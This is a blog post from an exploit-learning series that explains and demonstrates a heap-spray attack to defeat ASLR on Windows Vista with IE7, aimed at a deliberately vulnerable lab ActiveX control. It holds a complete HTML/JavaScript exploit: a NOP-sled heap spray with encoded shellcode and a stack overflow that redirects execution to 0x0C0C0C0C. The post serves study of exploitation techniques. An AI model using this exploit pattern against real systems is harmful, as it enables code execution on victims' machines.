 ```yaml
---
title: Exploit learning notes 019 Using HeapSpray Attack ASLR
description: Use Heap Spray technique to attack ASLR and locate shellcode
date: 2020-11-28 12:38:00+0800
categories:
    - Exploit
tags:
    - Windows
    - HeapSpray
---
```


Source: [Moeomu's blog](/posts/exploit-learning-notes-019-using-heapspray-attack-aslr/)

## Principle

By requesting a large amount of memory, occupying the 0x0C0C0C0C locations in memory, and placing 0x90 and shellcode in these memories, and finally controlling the program to go to 0x0C0C0C0C for execution. As long as the luck is not so bad that 0x0C0C0C0C0C happens to be located somewhere in the shellcode, the shellcode will be executed successfully

## Experiment

### Preparation

> Environment: System: Windows Vista SP0, DEP Status: Default, Browser: IE7

- Still use the previously used [Vulner_AX.dll](https://pan.moeomu.com/Tutorial/0Day安全-资料/VulnerAX_SEH/VulnerAX.ocx) as the target of the attack
- UUID of `CVulnerAXCtrl's class information` in `VulnerAX.idl`: `ACA3927C-6BD1-4B4E-8697-72481279AAEC`

### Idea

- We use the Heap spray technique to request 200 1MB memory blocks in memory to counteract the randomization process of ASLR
- Each memory block contains 0x90 padding and shellcode
- After Heap spray we occupy the memory near `0x0C0C0C0C`, we just control the program to go to `0x0C0C0C0C` for execution, and after several 0x90 slides we can reach the shellcode range and execute
- There is a typical overflow vulnerability in the test function, where the function return address can be overwritten by copying a very long string
- We will overwrite the function return address as `0x0C0C0C0C`, after the function execution returns to execution will be transferred to the memory space we apply

### Code

```html
<html>
<body>
<script>
    var nops = unescape("%u9090%u9090");
    var shellcode = "\u68fc\u0a6a\u1e38\u6368\ud189\u684f\u7432\u0c91\uf48b\u7e8d\u33f4\ub7db\u2b04\u66e3\u33bb\u5332\u7568\u6573\u5472\ud233\u8b64\u305a\u4b8b\u8b0c\u1c49\u098b\u698b\uad08\u6a3d\u380a\u751e\u9505\u57ff\u95f8\u8b60\u3c45\u4c8b\u7805\ucd03\u598b\u0320\u33dd\u47ff\u348b\u03bb\u99f5\ube0f\u3a06\u74c4\uc108\u07ca\ud003\ueb46\u3bf1\u2454\u751c\u8be4\u2459\udd03\u8b66\u7b3c\u598b\u031c\u03dd\ubb2c\u5f95\u57ab\u3d61\u0a6a\u1e38\ua975\udb33\u6853\u616B\u6F6F\u4D68\u7369\u8B61\u53c4\u5050\uff53\ufc57\uff53\uf857";
    while (nops.length < 0x100000)
        nops += nops;
    nops = nops.substring(0, 0x100000/2-32/2-4/2-2/2-shellcode.length);
    nops = nops + shellcode;
    var memory = new Array();
    for (var i = 0; i < 200; i++)
        memory[i] += nops;
</script>
<object classid="clsid:ACA3927C-6BD1-4B4E-8697-72481279AAEC" id="test"> </object>
<script>
    var s = "\u9090";
    while (s.length < 54)
    {
        s += "\u9090";
    }
    s += "\u0C0C\u0C0C";
    test.test(s);
</script>
</body>
</html>
```

### Result

- Successful attack on ASLR, as shown in the figure

![pic1](https://s3.ax1x.com/2020/11/28/DyUSMR.png)  
![pic2](https://s3.ax1x.com/2020/11/28/DyUcl9.jpg)  
![pic3](https://s3.ax1x.com/2020/11/28/DyN3vR.png)
